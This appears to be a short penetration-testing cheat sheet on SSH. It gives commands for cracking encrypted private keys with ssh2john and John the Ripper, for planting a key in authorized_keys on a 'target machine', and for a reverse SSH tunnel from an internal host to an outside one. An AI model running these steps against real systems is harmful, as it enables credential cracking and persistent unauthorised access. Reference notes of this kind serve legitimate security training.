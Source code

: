 # SSH

### Add an SSH-key

```
ssh-keygen -t rsa
ssh-copy-id -i ~/.ssh/id_rsa.pub root@x.x.x.x
```

### Decrypt RSA file

```
ssh2john id_rsa
```

or you can user [sshng2john](https://raw.githubusercontent.com/stricture/hashstack-server-plugin-jtr/master/scrapers/sshng2john.py) which supports cracking into a format for [jumbo john](https://github.com/openwall/john) (john the ripper but for GPU)

```
pyhton sshng2john id_rsa
```

### Copy SSH public file

On your target machine:

```
echo "<your .ssh/key.pub>" > ~/.ssh/authorized_keys
```

### Reverse SSH tunnel

On the internal machine:

```
ssh -R 19999:localhost:22 leon@externalip.com
```

Creates listening tunnel on 19999

On the external machine:

```
ssh user@localhost -p19999
```

Connects to 19999 to ssh back to the start of the tunnel using the remote machine's username and password
